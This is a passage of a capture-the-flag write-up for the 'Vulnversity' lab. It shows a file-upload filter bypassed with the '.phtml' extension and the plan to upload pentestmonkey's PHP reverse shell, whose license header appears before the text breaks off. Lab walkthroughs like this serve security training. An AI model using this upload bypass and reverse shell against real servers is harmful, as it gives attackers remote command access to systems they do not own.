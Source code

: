     <img src="/assets/images/thm/Vulnversity/Untitled 10.png" alt="Untitled" data-size="original">

    *   we can see that “phtml” is the only response with different Length, so let’s check the response content

        <img src="/assets/images/thm/Vulnversity/Untitled 11.png" alt="Untitled" data-size="original">

        * Great😃, successful upload
* we have discovered that the server running is apache, so we should use PHP reverse shell
* we can find a reverse shell in “/usr/share/webshells/php" in kali Linux or we can use [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) or [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)
* I will use PHP reverse shell in /usr/share/webshells/php kali Linux

```php
php-reverse-shell.php                  
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
```